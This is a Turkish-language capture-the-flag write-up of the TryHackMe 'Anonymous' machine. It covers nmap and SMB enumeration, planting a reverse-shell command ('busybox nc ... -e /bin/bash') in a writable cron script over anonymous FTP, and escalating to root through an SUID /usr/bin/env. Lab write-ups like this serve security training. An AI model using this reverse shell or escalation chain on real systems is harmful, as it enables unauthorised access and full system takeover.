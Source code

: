 ```yaml
---
title: 'TryHackMe | Anonymous WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [ftp, suid]
render_with_liquid: false
---
```


## Özet

Anonymous, `FTP` üzerinden sisteme shell yükleyerek sisteme giriş yaptığımız orta seviye bir linux makinedir. Bağlantı sonrasında `SUID` bitine sahip olan dosyaları listeyecek ve listede bulunan bir dosyadan faydalanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sV -sC -T4 10.10.84.107
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 07:19 EDT
Nmap scan report for 10.10.84.107
Host is up (0.063s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.66.61
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-03-23T11:20:06+00:00
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-23T11:20:06
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.91 seconds
```

Tarama sonucunda 21 (FTP), 22 (SSH) ve 139/445 (SMB) numaralı portların açık olduğunu öğreniyoruz. Ayrıca `FTP` servisinin `anonymous` özelliği, SMB servisinin ise misafir kullanıcı özelliği aktif bulunuyor.

### 139/445 numaralı portlarının incelenmesi

SMBMap aracını kullanarak misafir oturumunda görüntüleyebildiğimiz dosyaları listelediğimizde pics adında bir paylaşım olduğunu görüyoruz. 

```console
$ smbmap -H 10.10.84.107 -r
[+] Guest session       IP: 10.10.84.107:445    Name: 10.10.84.107                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        .\pics\*
        dr--r--r--                0 Sun May 17 07:11:34 2020    .
        dr--r--r--                0 Wed May 13 21:59:10 2020    ..
        fr--r--r--            42663 Mon May 11 20:43:42 2020    corgo2.jpg
        fr--r--r--           265188 Mon May 11 20:43:42 2020    puppos.jpeg
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```

Bu paylaşımın içerisinde `corgo2.jpg` ve `puppos.jpeg` olmak üzere iki dosya bulunuyor. İkisindende herhangi bir bilgi çıkaramadım.

```console
$smbclient \\\\10.10.84.107\\pics
Password for [WORKGROUP\appdone]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306816 blocks available
smb: \> get corgo2.jpg 
getting file \corgo2.jpg of size 42663 as corgo2.jpg (90.4 KiloBytes/sec) (average 90.4 KiloBytes/sec)
smb: \> get puppos.jpeg 
getting file \puppos.jpeg of size 265188 as puppos.jpeg (384.8 KiloBytes/sec) (average 265.1 KiloBytes/sec)
smb: \> 
```

### 21 numaralı portun incelenmesi

FTP servisine misafir kullanıcı olarak bağlandıktan sonra `clean.sh`, `removed_files.log` ve `to_do.txt` olmak üzere üç dosya ile karşılaşıyoruz.

```console
ftp> ls -la
229 Entering Extended Passive Mode (|||15032|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1720 Mar 23 11:36 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> 
```

`to_do.txt` dosyası içerisinde, misafir kullanıcı özelliğinin güvenli olmadığı ve kapatılması gerektiği yazıyor.

```
I really need to disable the anonymous login...it's really not safe
```

`clean.sh` dosyasının içerisinde ise  `Running cleanup script:  nothing to delete` yazısını `removed_files.log` dosyasına ekleyen bir `bash` kodu var.

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log` dosyasını kontrol ettiğimizde `clean.sh` dosyasının defalarca çalıştırıldığınnı ve bu dosyaya yazdırıldığını görüyoruz.

```console
$ cat removed_files.log                                                                                                                                                                   
Running cleanup script:  nothing to delete                                                                                                                                                    
Running cleanup script:  nothing to delete                                                                                                                                                    
Running cleanup script:  nothing to delete
...
```

## Sömürü aşaması

`removed_files.log` dosyasından yola çıkarak `clean.sh` dosyasının ara ara çalıştırıldığını düşünebiliriz. Reverse shell kodumuzu aynı isimde bir dosyaya ekleeyelim.

```console
$ echo "busybox nc 10.21.66.61 1234 -e /bin/bash" > clean.sh
```

Daha sonra bu dosyayı `FTP` servisinde bulunan `scripts` dizinine yükledikten sonra bağlantının geleceği portu dinlemeye alalım.

```console
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||37654|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|    41        1.14 MiB/s    00:00 ETA
226 Transfer complete.
41 bytes sent in 00:00 (0.30 KiB/s)
```

Yaklaşık 15-20 saniye sonra dinlemeye aldığımız port üzerinden bağlantıyı elde ediyoruz.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.84.107] 42498
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Yetki yükseltme

### root

`SUID` bitine sahip olan dosyaları listelediğimizde içlerinden biri olan `/usr/bin/env` dosyası ilgimizi çekiyor.

```console
 namelessone@anonymous:/$ find / -perm -4000 2>/dev/null
...
/usr/bin/env
...
```

Bu dosyayı [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) sitesinde arattıktan sonra sadece `/usr/bin/bash -p` komutunu ekleyerek yetki yükseltebileceğimizi öğreniyoruz. Bunu uyguladıktan sonra root haklarına sahip oluyor ve `/root` dizininden son bayrağımızı alıyoruz.

```console
namelessone@anonymous:/$ /usr/bin/env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root)...
bash-4.4# cd /root
bash-4.4# ls
root.txt
```
